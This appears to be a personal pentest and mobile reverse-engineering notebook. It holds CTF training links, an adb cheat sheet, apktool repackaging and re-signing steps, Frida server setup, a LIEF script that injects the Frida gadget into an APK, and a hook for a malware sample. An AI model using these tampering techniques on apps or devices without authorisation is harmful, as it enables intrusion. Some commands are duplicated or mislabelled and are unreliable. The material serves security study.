










Knowledge-based
Set of knowledge organized by theme.
Current personnal training
| Title | Tags | Description |
|---|---|---|
| exercism | Programmation Training | Site d'apprentissage de languages de programmation par challenge. |
| QIOZ | Langue Training | Site d'apprentissage de langue étrangère |
| Coding Game | Programmation Training Game | Site d'apprentissage de languages de programmation par le jeux. |
| Try Hack Me | Pentest Training | Site d'apprentissage de Pentest |
| Root Me | Pentest Training CTF | Site de training pour CTF. |
| CTF hacker 101 | Training CTF | Site de training pour CTF. |
| CTF 101 | Training CTF | Site de training pour CTF. |
| Awesome Mobile CTF | Training CTF Mobile | Site de training pour CTF Mobile. |
| Write Up et blog (Nolliv22) | CTF Write Up | Write Up CTF. |
| Write Up et blog (ir0nstone) | CTF Write Up | Write Up CTF. |
| Port Swigger (Burp Suite) | Training Pentest | Site tuto de Burp Suite |
| Awesome CTF Resources | Training CTF Write Up | Github resources for CTF training. |
| pwn.college | Training CTF | pwn.college is an education platform for students. |
| Crypto CTF | Training CTF | A free, fun platform for learning modern cryptography. |
| CTF Docs | Training CTF Write Up | On this documentation website, you will find resources (cheatsheets, methodology, CTF write ups, ...) on the following topics : Android, Crypto, Malware, OSINT, pentest, Pwn, Reverse engineering, web... |
| 404CTF Write up | training programmatic pentest ctf mobile wrietup | Codes sources des challenges de l'édition 20XX du 404 CTF |
| Smithing (all about hacking) | training programmatic pentest ctf (rootme) mobile wrietup | While exploitation and privilege escalation is not the end goal, it is a key element of the attack life cycle and a major determinant in the success of a penetration test. |
Tools
Some cool tools I use/to use
Figlet
Generate big banner.
TAG: ASCII, banner, title
$ figlet -f smblock.tlf Test
▀▛▘ ▐
▌▞▀▖▞▀▘▜▀
▌▛▀ ▝▀▖▐ ▖
▘▝▀▘▀▀ ▀
$ figlet -f smascii12.tlf Test
.mmm,
'"W"` ][
W dWb .dWW,]WWW
W ]bmd[]bm,` ][
W ]P""` ""W, ][
W 'Wmm[]mmd[ ]bm
" '"" """ ""
$ figlet -f Test
mmmmmmm m
# mmm mmm mm#mm
# #" # # " #
# #"""" """m #
# "#mm" "mmm" "mm
$ figlet -f ascii12.tlf Test
mmmmmmmm
"""##""" ##
## m####m mm#####m #######
## ##mmmm## ##mmmm " ##
## ##"""""" """"##m ##
## "##mmmm# #mmmmm## ##mmm
"" """"" """""" """"
$ figlet -f ascii9.tlf Test
mmmmmmm m
# mmm mmm mm#mm
# #" # # " #
# #"""" """m #
# "#mm" "mmm" "mm
$ figlet -f bigascii9.tlf Test
####### #
# #
# ### :###: #####
# :# #: .# #
# # # #:. #
# ##### .###: #
# # :# #
# # #. :# #.
# ###: :###: :##
$ figlet -f bigascii12.tlf Test
########
######## ##
## ##
## .####: :#####. #######
## .######: ######## #######
## ##: :## ##: .:# ##
## ######## ##### . ##
## ######## .######: ##
## ## .: ## ##
## ###. :# #:. :## ##.
## .####### ######## #####
## .#####: . #### .####
$ figlet -f future.tlf Test
╺┳╸┏━╸┏━┓╺┳╸
┃ ┣╸ ┗━┓ ┃
╹ ┗━╸┗━┛ ╹
$ figlet -f letter.tlf Test
TTTTT EEEEE SSSS TTTTT
T E S T
T EEEE SSS T
T E S T
T EEEEE SSSS T
$ figlet -f mono12.tlf Test
▄▄▄▄▄▄▄▄
▀▀▀██▀▀▀ ██
██ ▄████▄ ▄▄█████▄ ███████
██ ██▄▄▄▄██ ██▄▄▄▄ ▀ ██
██ ██▀▀▀▀▀▀ ▀▀▀▀██▄ ██
██ ▀██▄▄▄▄█ █▄▄▄▄▄██ ██▄▄▄
▀▀ ▀▀▀▀▀ ▀▀▀▀▀▀ ▀▀▀▀
$ figlet -f pagga.tlf Test
░▀█▀░█▀▀░█▀▀░▀█▀
░░█░░█▀▀░▀▀█░░█░
░░▀░░▀▀▀░▀▀▀░░▀░
Android
Path (USer land)
| Command | Description |
|---|---|
/data/data/<package name>/databases |
App databases |
/data/data/<package name>/shared_prefs/ |
Shared preferences |
| /mnt/sdcard/Download/ | Download folder |
| /data/app | Apk installed by user |
| /system/app | Pre-installed APK files |
| /mmt/asec | Encrypted apps (App2SD) |
| /mmt/emmc | Internal SD Card |
| /mmt/adcard | External/Internal SD Card |
| /mmt/adcard/external_sd | External SD Card |
Usefull docker
mingc/android-build-box An optimized docker image includes Android, Kotlin, Flutter sdk.
$ docker pull mingc/android-build-box
Android Debug Bridge (adb)
Package Installation
- Basic Command
- Some Activities
- Package Installation
- Path
- File Operations
- Phone Info
- Package Info
- Device Related Commands
- Intents
- Log
- Permissions
- System Informations
- Proxy
- Input & Actions
- Start activities
- Shell process management
- Optimize for Doze and App Standby
- Service
Basic Command
| Command | Description |
|---|---|
| adb devices | Lists connected devices |
| adb connect 192.168.2.1 | Connects to adb device over network |
| adb root | Restarts adbd with root permissions |
| adb start-server | Starts the adb server |
| adb kill-server | Kills the adb server |
| adb reboot | Reboots the device |
| adb shell | Starts the backround terminal |
| adb devices -l | List of devices by product/model |
adb -s <deviceName> <command> |
Redirect command to specific device |
adb –d <command> |
Directs command to only attached USB device |
adb –e <command> |
Directs command to only attached emulator |
Package Installation
| Command | Description |
|---|---|
adb shell install <apk> |
Install app |
adb shell install <path> |
Install app from phone path |
adb shell install -r <path> |
Install app from phone path |
adb shell uninstall <name> |
Remove the app |
Path
| Command | Description |
|---|---|
adb shell ls |
List directory contents |
adb shell ls -s |
Print size of each file |
adb shell ls -R |
List subdirectories recursively |
adb shell pm path <package name> |
Get full path of a package |
| adb shell pm list packages -f | Lists all the packages and full paths |
| adb shell pm list packages | sed 's/.*://g' | Get all available packages |
File Operations
| Command | Description |
|---|---|
adb push <local> <remote> |
Copy file/dir to device |
adb pull <remote> <local> |
Copy file/dir from device |
run-as <package> cat <file> |
Access the private package files |
Phone Info
| Command | Description |
|---|---|
| adb get-statе | Print device state |
| adb get-serialno | Get the serial number |
| adb shell dumpsys iphonesybinfo | Get the IMEI |
| adb shell netstat | List TCP connectivity |
| adb shell pwd | Print current working directory |
| adb shell dumpsys battery | Battery status |
| adb shell pm list features | List phone features |
| adb shell service list | List all services |
adb shell dumpsys activity <package>/<activity> |
Activity info |
| adb shell ps | Print process status |
| adb shell wm size | Displays the current screen resolution |
Package Info
| Command | Description |
|---|---|
| adb shell list packages | Lists package names |
| adb shell list packages -r | Lists package name + path to apks |
| adb shell list packages -3 | Lists third party package names |
| adb shell list packages -s | Lists only system packages |
| adb shell list packages -u | Lists package names + uninstalled |
| adb shell dumpsys package packages | Lists info on all apps |
adb shell dump <name> |
Lists info on one package |
adb shell path <package> |
Path to the apk file |
Device Related Commands
| Command | Description |
|---|---|
| adb reboot-recovery | Reboot device into recovery mode |
| adb reboot fastboot | Reboot device into recovery mode |
| adb shell screencap -p "/path/to/screenshot.png" | Capture screenshot |
| adb shell screenrecord "/path/to/record.mp4" | Record device screen |
| adb backup -apk -all -f backup.ab | Backup settings and apps |
| adb backup -apk -shared -all -f backup.ab | Backup settings, apps and shared storage |
| adb backup -apk -nosystem -all -f backup.ab | Backup only non-system apps |
| adb restore backup.ab | Restore a previous backup |
| ------- | ----------- |
| adb shell am start -a android.intent.action.VIEW -d URL | Opens URL |
| adb shell am start -t image/* -a android.intent.action.VIEW | Opens gallery |
| adb shell monkey -p app.package.name -v 1 | Starts the specified package |
Intents
| Command | Description |
|---|---|
| am start -a android.intent.action.VIEW -d https://github.com | URI |
| am start -a "android.intent.action.SEND" --es "android.intent.extra.TEXT" "Hello World" -t "text/plain" | Mime Type and Extra string |
| am start -n "your.application.packagename/path.to.the.Activity" | Activity |
| am start -n "your.application.packagename/path.to.the.Activity" - e "key" "data" | Activity with extras |
| am startservice -n "com.example.application/.BackgroundService" | Service |
| am broadcast -a "android.intent.action.PACKAGE_FIRST_LAUNCH" -d "com.example.application" | Broadcast with Action |
am broadcast -a com.google.android.c2dm.intent.RECEIVE
-n <YOUR_PACKAGE_NAME>/<YOUR_RECEIVER_NAME>
-e "<EXTRA_KEY_1>" "<EXTRA_VALUE_1>"
-e "<EXTRA_KEY_2>" "<EXTRA_VALUE_1>"
|
Notification (1) |
(1) stackoverflow
Log
| Command | Description |
|---|---|
adb logcat [options] [filter] [filter] |
View device log |
| adb bugreport | Print bug reports |
| adb logcat | Starts printing log messages to stdout |
| adb logcat -g | Displays current log buffer sizes |
adb logcat -G <size> |
Sets the buffer size (K or M) |
| adb logcat -c | Clears the log buffers |
| adb logcat *:V | Enables ALL log messages (verbose) |
adb logcat -f <filename> |
Dumps to specified file |
adb logcat -v color "com.rust_sample.org:I" "*:S" |
Filter logcat for package name com.rust_sample.org only in INFO |
Example
$ adb logcat -G 16M
$ adb logcat *:V > output.log
- Logcat for specific package name
$ adb logcat -c && adb logcat --pid=$(adb shell pidof -s fr.dghack2023.android_mirrors)
Permissions
| Command | Description |
|---|---|
| adb shell permissions groups | List permission groups definitions |
| adb shell list permissions -g -r | List permissions details |
System Informations
| Command | Description |
|---|---|
adb shell getprop ro.build.version.release |
Get Build Version of Release Mode |
adb shell getprop ro.product.cpu.abi |
Get current ABI |
Proxy
| Command | Description |
|---|---|
adb shell settings put global http_proxy <address>:<port> |
Set network proxy |
| adb shell settings put global http_proxy :0 | Disable network proxy |
Input & Actions
| Command | Description |
|---|---|
| adb shell input text S3cr37 && adb shell input keyevent 66 | Input text 'S3cr37' then press [ENTER] |
| adb shell input swipe 540 1600 540 100 150 | Swipe up (SCREEN not been closed) |
| adb shell input tap X Y | Click on screen at coordinate [X, Y] |
Start activities
| Command | Description |
|---|---|
| adb shell am start -n com.package.name/com.package.name.ActivityName | Throught package name (Manifest) |
| am start -a com.example.ACTION_NAME -n com.package.name/com.package.name.ActivityName | Intent-filter |
| adb shell monkey -p your.app.package.name 1 | Androiderson tips |
Shell process management
| Command | Description |
|---|---|
adb shell pidof -s fr.dghack2023.android_mirrors |
Get PID of application name (running) |
Optimize for Doze and App Standby
| Command | Description |
|---|---|
adb shell dumpsys |
|
adb shell dumpsys battery | grep powered |
Battery powered state |
adb shell dumpsys battery unplug |
Unplug battery |
adb shell dumpsys battery reset |
Reset battery |
adb shell dumpsys deviceidle |
Dump Doze mode info |
adb shell dumpsys deviceidle enable |
Enable Doze mode (may be required on Android Emulator) |
adb shell dumpsys deviceidle get light |
Get status of Light Doze mode |
adb shell dumpsys deviceidle get deep |
Get status of Deep Doze mode |
adb shell dumpsys deviceidle step light |
Enter Light Doze mode (should be called several times to pass all phases) |
adb shell dumpsys deviceidle step deep |
Enter Deep Doze mode (should be called several times to pass all phases) |
================================================================
Service
| Command | Description |
|---|---|
adb shell dumpsys activity service |
Allow to list running services |
adb shell dumpsys activity com.service.function |
Allow to know the services *com.service.function* status. |
============================================================
Get Screen state and locked state (To be verified)
adb shell service call trust 7
Android Apktool for Reverse Engineering
A tool for reverse engineering 3rd party, closed, binary Android apps. It can decode resources to nearly original form and rebuild them after making some modifications. It also makes working with an app easier because of the project like file structure and automation of some repetitive tasks like building apk, etc.
It is NOT intended for piracy and other non-legal uses. It could be used for localizing, adding some features or support for custom platforms, analyzing applications and much more.
Download and Documentation
Official Apktool Website{target=_blank}
APKTool
- Decoding code
$ apktool d foo.jar
# decodes foo.jar to foo.jar.out folder
$ apktool decode foo.jar
# decodes foo.jar to foo.jar.out folder
$ apktool d bar.apk
# decodes bar.apk to bar folder
$ apktool decode bar.apk
# decodes bar.apk to bar folder
$ apktool d bar.apk -o baz
# decodes bar.apk to baz folder
- Building
$ apktool b foo.jar.out
# builds foo.jar.out folder into foo.jar.out/dist/foo.jar
$ apktool build foo.jar.out
# builds foo.jar.out folder into foo.jar.out/dist/foo.jar
$ apktool b bar
# builds bar folder into bar/dist/bar.apk
$ apktool b .
# builds current directory into ./dist
$ apktool b bar -o new_bar.apk
# builds bar folder into new_bar.apk
$ apktool b bar.apk
# WRONG: brut.androlib.AndrolibException: brut.directory.PathNotExist: apktool.yml
# Must use folder, not apk/jar file
How to Sign APK After Compile
In order to install modified APK on Android device, you need to sign it with a certificate. Android APK won't be signed by default. You need to sign it manually.
Install apksigner
apt install -y apksigner
Create certificate at the same folder you've compiled your modified APK
keytool -genkey -v -keystore keystore.jks -keyalg RSA -keysize 2048 -validity 10000
Enter A password (we will need it to singe the APK), enter any data you wish for the certificate information. At the end enter 'y' at the end to create the certificate.
Now we should have 2 files: your.apk, keystore.jks. The only step left is to singe the APK with new certificate.
apksigner sign --ks keystore.jks your.apk
When installing the APK you will be prompted with a warning of "unknown certificate" just hit Install.
Dex2Jar
Permet de convertir un APK en JAR.
Source:
- How To Dissect Android Simplelocker Ransomware
- Creating An Antidote For Android Simplelocker Ransomware
Devtool FLUTTER
Dans le cadre d'un APK compilé DEBUG, il est possible d'acceder au code source en ligne :
1- installation de l’apk sur l’appareil android :
$ adb install path/to/apk
2- lancement de l’apk sur l’appareil
3- affichez les logs pour trouver l’observatory :
$ adb logcat | grep flutter
exemple :
07-16 18:24:28.887 30621 30691 I flutter : Observatory listening on http://127.0.0.1:37405/XXXXXXX=/
4- copiez le port de l’obsevatory, dans l’exemple c’est 37405
5- configurez la redirection de port sur la machine :
$ adb forward tcp:37405 tcp:37405
(remplacez 37405 par votre port)
5- lancez le devtool avec :
$ dart devtools
et ajoutez le lien de l’observatory dans l’interface.
Il est possible d’acceder au code source depuis cette interface.
Install and Create Emulators using AVDMANAGER and SDKMANAGER
TL;DR
For an emulator that mimics a Pixel 5 Device with Google APIs and ARM/x86_64 architecture:
- List All System Images Available for Download:
$ sdkmanager --list | grep system-images
- Install platform tools, build tools, android platform:
$ echo "yes" | sdkmanager "platform-tools" "build-tools;31.0.0" "platforms;android-31"
- Install system images:
$ echo "yes" | sdkmanager "system-images;android-31;google_apis;x86_64"
- Create Emulator:
echo "no" | avdmanager --verbose create avd \
--force \
--name "pixel_5_api30_google_atd_emulator" \
--package "system-images;android-31;google_apis;x86_64" \
--tag "google_atd" \
--abi "arm64-v8a" \
--device "pixel_5"
I recommend always using the new google_atd or aosp_atd images when possible. In my benchmarks, they are about 40% more efficient than the google_apis image.
Note: Available device (--device) list:
$ avdmanager list device
Passing in a device will make the Emulator settings (usually found in the ~/.android/avd/emulator.avd/config.ini file) try to mimic that device. It is not actually the device. But, certain settings like pixel density, resolution, memory, partition size, etc will be changed. Generally the lower resolution devices will be less taxing on your CPU resources on CI, and are preferred especially without GPU/Hardware acceleration.
- Run Emulator:
$ emulator @generic_api30_aosp_atd_emulator &
or
emulator @pixel_5_google_atd_emulator &
- Available adv
$ avdmanager list avd
Aliases
Add aliases to your ~/.zshrc or ~/.bashrc to run the emulators with parameters more easily.
alias pixel_5_wiped='emulator @pixel_5 -no-boot-anim -netdelay none -no-snapshot -wipe-data &'
Starting multiple emulators
You can pass the -read-only parameter when starting up an emulator
$ emulator @pixel_5 -read-only
to run multiple devices at the same time.
Other
- aosp_atd and google_atd system images are only available on x86 and ARM architecture at API level 30.
See also: https://android-developers.googleblog.com/2021/10/whats-new-in-scalable-automated-testing.html
$ sdkmanager --list | grep atd
system-images;android-30;aosp_atd;arm64-v8a | 1 | AOSP ATD ARM 64 v8a System Image
system-images;android-30;aosp_atd;x86 | 1 | AOSP ATD Intel x86 Atom System Image
system-images;android-30;google_atd;arm64-v8a | 1 | Google APIs ATD ARM 64 v8a System Image
system-images;android-30;google_atd;x86 | 1 | Google APIs ATD Intel x86 Atom System Image
ensure PATH is correct
(if studio is in /opt/android-studio, and SDKs etc under ~/Android/Sdk):
ANDROID_STUDIO_LOC=/opt/android-studio
ANDROID_SDK_ROOT=~/Android/Sdk
PATH=$ANDROID_SDK_ROOT/cmdline-tools/latest/bin:$ANDROID_STUDIO_LOC/bin:$ANDROID_SDK_ROOT/emulator:$ANDROID_SDK_ROOT/tools:$ANDROID_SDK_ROOT/platform-tools:$PATH
Docs
See: Google's Emulator CLI Documentation for more info.
See: Google's AVDManager Documentation for more info.
See: Google's SDKManager Documentation for more info.
AVDManager (Android Virtual Device Manager)
Android Emulator Crash
load libvulkan.so: failed
Go to emulator folder then change gpu mode:
$ cd $HOME/.android/avd/<EMULATOR-LABEL>.avd
$ sed -i 's/hw.gpu.mode = auto/hw.gpu.mode = guest/g' ./config.ini
Drozer
Drozer is a good tool for simulating a rogue application. F-Secure stopped its development, but it still can be used in your penetration test without any problems. From their GitHub page, there is an APK that should be installed on the device. The command is
$ adb install drozer-agent-2.3.4.apk
Drozer allows you to search for security vulnerabilities in apps and devices by assuming the role of an app and interacting with the Dalvik VM, other apps’ IPC endpoints, and the underlying OS. Even though it is decommissioned and out of development, I still use it as a go-to tool when it comes to mobile pentesting. More details can be found on their GitHub.
$ wget https://github.com/WithSecureLabs/drozer/releases/download/2.4.4/drozer_2.4.4.deb
$ sudo dpkg -i drozer-2.4.4.deb
Frida
Frida Tools
frida-ps
- Get the list of running processes/applications
# -U option for USB devices or emulators
$ frida-ps -U
- Get the list of installed applications with -i option
$ frida-ps -U -i
Frida CLI
- By default, Frida tries to attach to a running process
$ frida -U com.android.chrome
- To spawn an application, use the -f option as follow
$ frida -U -f com.android.chrome
- By default, the process is paused
$ frida -U -f com.android.chrome --no-pause
- Short usefull command
$ frida -U -l ./<script>.js -p `adb shell pidof -s <PACKAGE_NAME>`
Frida Scripting
-
Python bindings are provided with Frida
- However, the hooks need to be written in JavaScript :(
-
Here are the basics Frida functions
- Java.perform(function() {//your code here});
- Perform code instrumentation inside the Java code
- Java.use(class_name)
- Use a specific Java class
- overload
- Overload a specific method (functions with different prototypes)
- implementation
- Tamper the implementation of the selected method
- Java.perform(function() {//your code here});
-
The most convenient way is to use scripts
$ frida -U -l myscript.js com.android.chrome
- Here is an example allowing to hook the onCreate function
Java.perform(function () {
// Declare the Activity class as a variable
var Activity = Java.use("android.app.Activity");
// Hook the onCreate function
Activity.onCreate.implementation = function () {
console.log("[*] onCreate() got called!");
this.onCreate();
};
});
- When spawning an application, it is recommended to use Java.available as follow
- Sometimes the JVM is not ready, and the script failed to execute
if(Java.available) {
Java.perform(function () {
// your code here
};
}
- To print debug messages, you can use those functions
$ send(message)
$ console.log(line) / console.warn(line) / console.error(line)
Reference
- Cheat Sheet
- Awesome Frida scripts
- Learning Frida
Frida setup
Frida can installed :
- Rooted device(s)
- Not rooted device(s)
- Emulator(s)
Setup python modules
Sous python 3.9 et plus
# Pyenv or venv
$ pip install frida-tools
$ pip install frida
Get Frida server
VER=`frida --version`
ABI=`adb shell getprop ro.product.cpu.abi`
wget https://github.com/frida/frida/releases/download/$VER/frida-server-$VER-android-$ABI.xz
xz -d frida-server-$VER-android-$ABI.xz
mv frida-server-* frida-server
Where :
VERSIONis the last version (16.0.19 at Apr 27 2023)PLATFORMis one of [android|windows|linux]. This is the device target.ARCHIis [arm|arm64|x86|x86_64|armeabi]
Get Frida gadget
VER=`frida --version`
ABI=`adb shell getprop ro.product.cpu.abi`
wget https://github.com/frida/frida/releases/download/$VER/frida-gadget-$VER-android-$ABI.so.xz
xz -d frida-server-$VER-android-$ABI.xz
mv frida-server-* frida-server
Where :
VERSIONis the last version (16.0.19 at Apr 27 2023)PLATFORMis one of [android|windows|linux]. This is the device target.ARCHIis [arm|arm64|x86|x86_64|armeabi]
Run frida server
# Restart root
$ adb root
adbd is running as root
$ adb push frida-server /data/local/tmp/
frida-server: 1 file pushed, 0 skipped. 318.4 MB/s (112503224 bytes in 0.337s)
$ adb shell "chmod 755 /data/local/tmp/frida-server"
$ adb shell "/data/local/tmp/frida-server -D &"
Get running process list
# List packages and processes
$ frida-ps -U
# Get all the package name
$ frida-ps -U | grep -i <part_of_the_package_name>
Run client script
frida -U -l <script>.js -f <package_name>
Inject Frida's Gadget under Android: Not rooted device
You have 2 options to inject Frida's Gadget to Android application:
-
Method 1: If targeted APK contains any native library (
<apk>/lib/arm64-v8a/libfromapk.so), then you can inject libfrida-gadget.so as a dependency into the native library. -
Method 2: If APK doesn't contain a native library, then you can inject
System.loadLibrarybytecode.Only method 1 will be used here
Method 1 : Inject a libfrida-gadget.so as a dependency to a native library (JNI) inside of APK
The used APK coming from github project cdroid where 2 APK were generated :
- first with "android.permission.INTERNET"
- second without this permission.
Basically, you need this article: How to use frida on a non-rooted device - LIEF.
- Download and unpack frida-gadget >= 12.8.8 for Android for arm64
!!! les versions 12.7.0 à 12.8.7 ne parviennet pas à contacter le serveur Issue#286.
$ wget https://github.com/frida/frida/releases/download/16.1.4/frida-gadget-16.1.4-android-arm64.so.xz
$ unxz -d frida-gadget-16.1.4-android-arm64.so.xz
- Unpack APK
$ apktool d -rs <target>.apk
- Use apktool >= 2.4.1.
-rsis to not decode resources and sources, it will save you time and keep your nerves while compiling the APK back.- unzip/zip doesn't always work - application may not bring up.
- Copy frida-gadget to the unpacked APK directory.
$ cp frida-gadget-16.1.4-android-arm64.so target/lib/arm64-v8a/libfrida-gadget.so
- Patch library with the following script
#!/usr/bin/env python3
import lief
libnative = lief.parse("target/lib/arm64-v8a/libfromapk.so")
libnative.add_library("libfrida-gadget.so") # Injection!
libnative.write("target/lib/arm64-v8a/libfromapk.so")
- Check the injection succeeded.
$ readelf -d target/lib/arm64-v8a/libfromapk.so
Dynamic section at offset 0xb2220 contains 30 entries:
Tag Type Name/Value
0x0000000000000001 (NEEDED) Shared library: [libfrida-gadget.so]
...
- Re-pack APK.
apktool b <target>
&. Sign APK
used "Uber APK signer": uber-apk-signer
$ java -jar uber-apk-signer-1.1.0.jar -a ./target/dist/target.apk
- Install l'APK
$ adb install -r -g <apk_file>.apk
Check frida-gadget
- Print log
$ adb logcat | grep -i frida
XX-XX XX:XX:XX.XXX 17595 17618 I Frida : Listening on 127.0.0.1 TCP port 27042
- Check openning port
$ adb shell netstat -ln | grep 27042
tcp 0 0 127.0.0.1:27042 0.0.0.0:* LISTEN
Frida
Frida Setup
Sous python 3.9 et plus
Setup python modules
# Pyenv or venv
$ pip install frida-tools
$ pip install frida
Get Frida server
$ wget https://github.com/frida/frida/releases/download/VERSION/frida-server-VERSION-PLATFORM-ARCHI.xz
Where :
VERSIONis the last version (16.0.19 at Apr 27 2023)PLATFORMis one of [android|windows|linux]. This is the device target.ARCHIis [arm|arm64|x86|x86_64|armeabi]
Example:
For Pixel 5, Android 12, API 31 emulator (from Android studio).
$ wget https://github.com/frida/frida/releases/download/16.0.19/frida-server-16.0.19-android-x86_64.xz
$ xz --decompress frida-server-16.0.19-android-x86_64.xz
$ mv frida-server-* frida-server
Run frida server
# Restart root
$ adb root
adbd is running as root
$ adb push frida-server /data/local/tmp/
frida-server: 1 file pushed, 0 skipped. 318.4 MB/s (112503224 bytes in 0.337s)
$ adb shell "chmod 755 /data/local/tmp/frida-server"
$ adb shell "/data/local/tmp/frida-server -D &"
Get running process list
# List packages and processes
$ frida-ps -U
# Get all the package name
$ frida-ps -U | grep -i <part_of_the_package_name>
Run client script
frida -U -l <script>.js -f <package_name>
Android Emulator/Frida
Inspired from Lairue Wired
Docker
- Docker pul
docker pull budtmo/docker-android:latest
- Docker run
# docker run --privileged -d -p 6080:6080 -p 5554:5554 -p 5555:5555 -e DEVICE="Samsung Galaxy S6" --name android-container budtmo/docker-android-x86-8.1
$ docker run -d -p 6080:6080 -p 5554:5554 -p 5555:5555 -e EMULATOR_DEVICE="Samsung Galaxy S10" -e WEB_VNC=true --device /dev/kvm --name android-container budtmo/docker-android:latest
- Connect to shell
➜ adb connect 127.0.0.1:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 127.0.0.1:5555
➜ adb -s 127.0.0.1:5555 shell
emu64xa:/ $
➜ adb -s 127.0.0.1:5555 root
restarting adbd as root
➜ adb -s 127.0.0.1:5555 shell
emu64xa:/ #
Setup Frida
➜ pip show frida
Name: frida
Version: 16.1.4
Summary: Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers
Home-page: https://frida.re
Author: Frida Developers
Author-email: oleavr@frida.re
License: wxWindows Library Licence, Version 3.1
Location: /home/user/.pyenv/versions/3.10.10/envs/frida_env/lib/python3.10/site-packages
Requires: typing-extensions
Required-by: frida-tools
- For the emulator => Frida server
x86
➜ unxz frida-server-16.1.4-android-x86_64.xz
➜ adb -s 127.0.0.1:5555 push frida-server-16.1.4-android-x86_64 /data/local/tmp
frida-server-16.1.4-android-x86_64: 1 file pushed, 0 skipped. 46.9 MB/s (51624572 bytes in 1.050s)
➜ adb -s 127.0.0.1:5555 shell
emu64xa:/ # cd /data/local/tmp
127|emu64xa:/data/local/tmp # ls
frida-server-16.1.4-android-x86_64
128|emu64xa:/data/local/tmp # chmod +x ./frida-server-16.1.4-android-x86_64
➜ adb -s 127.0.0.1:5555 shell /data/local/tmp/frida-server-16.1.4-android-x86_64 -D &
[1] 690322
➜ adb -s 127.0.0.1:5555 shell
1|emu64xa:/ # netstat -tlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program Name
tcp 0 0 localhost:27042 0.0.0.0:* LISTEN 6435/frida-server-16.1.4-android-x86_64
tcp 0 0 10.0.2.16:43826 par10s41-in-f4.1e:https CLOSE_WAIT 2550/com.google.android.googlequicksearchbox:search
tcp 0 0 10.0.2.16:41458 par10s41-in-f4.1e:https CLOSE_WAIT 2550/com.google.android.googlequicksearchbox:search
tcp6 0 0 [::]:5555 [::]:* LISTEN 6152/adbd
tcp6 0 0 ::ffff:10.0.2.16:46468 wl-in-f188.1e100.n:5228 ESTABLISHED 5168/com.google.android.gms.persistent
Frida quick start
- Running process list
frida-ps -U
- Running application
frida-ps -Ua
- Attach to a process
➜ frida-ps -Ua
PID Name Identifier
---- ----------- ---------------------------------------
2550 Google com.google.android.googlequicksearchbox
2550 Google com.google.android.googlequicksearchbox
5482 Messages com.google.android.apps.messaging
1581 Phone com.google.android.dialer
6074 Photos com.google.android.apps.photos
1085 SIM Toolkit com.android.stk
6041 Settings com.android.settings
6499 YouTube com.google.android.youtube
➜ frida -U Youtube
____
/ _ | Frida 16.1.4 - A world-class dynamic instrumentation toolkit
| (_| |
> _ | Commands:
/_/ |_| help -> Displays the help system
. . . . object? -> Display information about 'object'
. . . . exit/quit -> Exit
. . . .
. . . . More info at https://frida.re/docs/home/
. . . .
. . . . Connected to sdk gphone x86 64 (id=127.0.0.1:5555)
[sdk gphone x86 64::Youtube ]-> Exit
Sample
- Name: Android
- SHA256: c81234b6ceb3572c6d862a9313e019b98efd83165d8c085bd3e74971c66763bb
- ZIP password: infected
Script to hook
Java.perform(() => {
const wwuClass = Java.use('com.first.smoke.WWuToNtMwQcZlXnFwNx');
wwuClass.arrivesample.implementation = function () {
send('arrivesample() got called! Let\'s call the original implementation');
var retValue = this.arrivesample();
send('arrivesample() got called! Let\'s call the original implementation');
return retValue;
};
});
Frida Snippet Code
Skeleton
if (Java.available) {
Java.perform(function() {
# Code python
}
}
Methods call
- Static method
var BasicTypes = Java.use("com.blog.testfrida.examples.BasicTypes");
BasicTypes.divideFloat(23,3);
- Non static method
// Class reference
var Person = Java.use("com.blog.testfrida.complexobjects.Person");
// Create instance
var personInstance = Person.$new();
- Send string parameters to function
var String = Java.use("java.lang.String");
personInstance.setName(String.$new("Peter Griffin"));
Overridden methods
Here is overridden methods:
public static int multiply(int val1, int val2) {
return val1 * val2;
}
public static byte multiply(byte val1, byte val2) {
return (byte) (val1 * val2);
}
- Use in javascript will be:
var BasicTypes = Java.use("com.blog.testfrida.examples.BasicTypes");
console.log(BasicTypes.multiply(3,5));
Frida solves the method by the argument types.
- Override methods
var BasicTypes = Java.use("com.blog.testfrida.examples.BasicTypes");
console.log(BasicTypes.multiply(3,5));
